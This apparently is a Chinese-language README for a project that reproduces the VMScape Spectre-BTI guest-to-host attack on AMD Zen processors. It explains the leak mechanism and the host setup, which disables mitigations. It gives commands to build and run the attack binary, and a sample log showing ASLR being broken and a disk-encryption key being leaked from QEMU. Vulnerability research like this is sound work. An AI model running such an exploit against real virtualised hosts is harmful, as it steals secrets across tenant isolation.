

## 本项目具体说明

VMScape (CVE-2025-40300) 展示了在云环境中，分支预测器（Branch Predictor）隔离不完全所带来的安全风险。本项目详细描述并复现了一种端到端的利用（End-to-End Exploit），通过 Spectre 分支目标注入（Spectre-BTI）技术，实现在受害者的虚拟机（Guest VM）内部跨越虚拟化隔离边界，推测执行宿主机（Host）进程中的代码，最终从宿主机的 QEMU 进程内存中窃取高价值机密数据（如磁盘加密密钥）。该项目针对 AMD Zen 4 和 Zen 5 处理器进行了验证。

## 涉及资源

- **Branch Predictor (分支预测器)**
  - **位置**: CPU 内部 (Branch Target Buffer - BTB)
  - **功能**: 预测间接跳转指令的目标地址，加速流水线执行。
  - **利用**: 虚拟机（Guest）和宿主机（Host）共享同一物理 CPU 的 BTB 资源，且在 AMD Zen 处理器上缺乏足够的上下文隔离。攻击者可以在 Guest 中“训练” BTB，导致 Host 在执行时发生错误的分支预测，跳转到攻击者指定的 Gadget 执行推测操作。

- **Cache (CPU 缓存 / L3 Cache)**
  - **位置**: CPU L3 缓存
  - **功能**: 缓存内存数据，由于 L3 是多核共享且容量较大，常作为 Covert Channel 的传输介质。
  - **利用**: 通过 Flush+Reload 或 Prime+Probe 技术。攻击者利用缓存访问的时间差异（Hit 快，Miss 慢）来推断推测执行期间访问了哪些数据，从而将微架构状态转化为可见的泄露数据。

- **QEMU Object Model (QOM)**
  - **位置**: QEMU 进程堆内存
  - **功能**: QEMU 的对象管理系统，用于组织虚拟机设备、后端和密钥等。
  - **利用**: 攻击利用已知的静态对象地址作为起点，不需要知道整个堆的布局，只需按照对象指针链表进行相对寻址（Object Walking），即可稳定定位到存放 Secret 的动态分配区域。

- **Reload Buffer**
  - **位置**: 攻击者在 Guest 内控制的物理内存页
  - **功能**: 作为跨域通信的“邮箱”。
  - **利用**: 攻击者猜测这块物理页在 Host 虚拟地址空间中的映射地址（HVA），一旦猜中，被注入的 Host Gadget 就会将窃取的数据编码到对此 Buffer 的访问上，Guest 端通过监测此 Buffer 的缓存状态来接收数据。

## 攻击原理



**时间差异产生原理**:
1.  **注入**: 攻击者诱导 Host CPU 推测执行 `temp = *secret_ptr; buffer[temp * 4096]` 这样的逻辑。
2.  **编码**: 虽然推测执行会被回滚，但 `buffer[temp * 4096]` 这一行的访问会将 `buffer` 中对应偏移的页面加载到 CPU L3 缓存中。
3.  **解码**: 攻击者随后遍历访问 `buffer` 的所有页面并计时。
    *   **快 (Cache Hit)**: 只有第 `temp` 个页面访问时间极短（如 < 300 周期）。
    *   **慢 (Cache Miss)**: 其他页面访问需要从内存读取，时间较长。
    *   **结论**: 访问时间最快的那一页的索引值，就是 Secret 的值。

## 项目核心代码文件

- **`vmscape/attack/attack.c`**: 攻击的核心实现文件，包含侧信道原语、ASLR 破解、Reload Buffer 搜索和对象遍历泄露的主逻辑。
- **`vmscape/analyze.py`**: 用于解析攻击日志，验证泄露数据正确性的分析脚本。
- **`vmscape/guest/run-vm.sh`**: 启动受害者虚拟机的脚本，负责模拟 Secret 并配置特定的 QEMU 运行环境。
- **`uARF/` 模块 (被引用)**: 提供了底层的微架构操作库（如 `pi.ko`, `rap.ko`），用于辅助构建侧信道和特权操作。

## 运行环境

- **软件环境**:
  - **语言**: C, Python, Bash
  - **Host系统**: Ubuntu 24.04 (Kernel 需支持 KVM)
  - **Target**: QEMU-KVM (v8.x-v10.x, 需包含 debug symbols 以便于 verify 或特定 offset 适配)
  - **Guest Kernel**: Linux 6.6.105 (定制编译, 包含攻击模块支持)
  - **Guest Userland**: Busybox based Initramfs

- **硬件版本**:
  - **CPU**: AMD Zen 4 ( Ryzen 7 7840H)
  - **架构**: x86_64
  - **限制**: 最好关闭 SMT (Simultaneous Multithreading) 以减少同核线程对分支预测器的干扰噪声。

- **启动参数 (Host Kernel)**:
  - `mitigations=off`: 关闭 Spectre/Meltdown 补丁，确保漏洞环境存在。
  - `nosmt`: 关闭超线程，提高侧信道稳定性。

## 执行步骤

### 配环境步骤
1.  **配置 Host**:
    修改 Host 的 GRUB 配置 (`/etc/default/grub`)，添加内核参数 `mitigations=off nosmt`，并重启生效。
2.  **构建guest环境**:
    在容器内运行：
    ```bash
    ./vmscape/build.sh
    # 1. 下载并编译 Guest Kernel (Linux 6.6)
    # 2. 编译攻击工具 (attack binary)
    # 3. 编译辅助内核模块 (pi.ko, rap.ko)
    # 4. 生成 Initramfs
    ```
3.  **准备并启动容器**:
    ```bash
    ./vmscape/container.sh
    # 进入一个隔离的 Ubuntu 开发环境，确保 QEMU/依赖库版本一致
    ```


### 运行步骤
1.  **在container中启动受害者 VM**:
    在容器内运行：
    ```bash
    ./vmscape/guest/run-vm.sh
    # 启动 QEMU 虚拟机
    # 脚本会注入指定的 Secret 进入 QEMU 进程（具体作用是一个虚拟硬盘的加密密钥）
    ```
2.  **执行攻击**:
    在 QEMU 虚拟机的 Shell 中运行：
    ```bash
    ./attack
    # 开始自动执行漏洞利用流程
    ```

### 预期效果

**运行日志示例**:

```text
/mnt # ./attack
### initialize ###
initialize time = 0.008983s

### break code ASLR ###
search at 0x555540000000: ................................
search at 0x565540000000: ................................
search at 0x575540000000: ................................
search at 0x585540000000: ................................
search at 0x595540000000: ................................
search at 0x5a5540000000: ................................
search at 0x5b5540000000: ................................
search at 0x5c5540000000: ................................
search at 0x5d5540000000: ................................
search at 0x5e5540000000: .........................
victim at 0x5f2138386ea1
code_aslr time = 368.204866s
[INFO] attack.c:985:main Check Hit
rb:         , [0]: 64
[INFO] attack.c:1022:main Hit OK

### search reload buffer ###
search at 0x700000000000: ................................
search at 0x710000000000: ................................
search at 0x720000000000: ................................
search at 0x730000000000: ................................
search at 0x740000000000: ................................
search at 0x750000000000: ................................
search at 0x760000000000: ................................
search at 0x770000000000: ................................
search at 0x780000000000: ................................
search at 0x790000000000: ................................
search at 0x7a0000000000: ................................
search at 0x7b0000000000: ............................
buffer at 0x7bdf51e00000
rb_aslr time = 2464.505834s

### L3 eviction sets ###
build: ................................
l3_build time = 0.425207s
optimizing set: 1159
reached set size: 64
final eviction set size: 64
l3_search time = 15.411565s

### find qemu objects ###
root = 0x5f21665198a0
root->table->keys
- keys[00]: (empty)
- keys[01]: (empty)
- keys[02]: chardevs
- keys[03]: objects
- keys[04]: machine
- keys[05]: backend
- keys[06]: (empty)
- keys[07]: (empty)
auto selected index: 3
root->table->values[3]->opaque
objects = 0x5f216651a180

### find qemu secret object ###
objects->table->keys
- keys[00]: some_other_secret
- keys[01]: pc.ram
- keys[02]: (empty)
- keys[03]: distracting_secret
- keys[04]: (empty)
- keys[05]: (empty)
- keys[06]: disk_key
- keys[07]: (empty)
auto selected index: 6
objects->table->values[6]->opaque
secret_object = 0x5f21665261e0

### parse secret object ###
secret length: 67
secret pointer: 0x5f2166525660
secret_search time = 101.494483s

### leak the raw data ###
success! you have got the secret data! 1234567891234567891234567
89@
leak_array time = 8.320239s
/mnt # 
```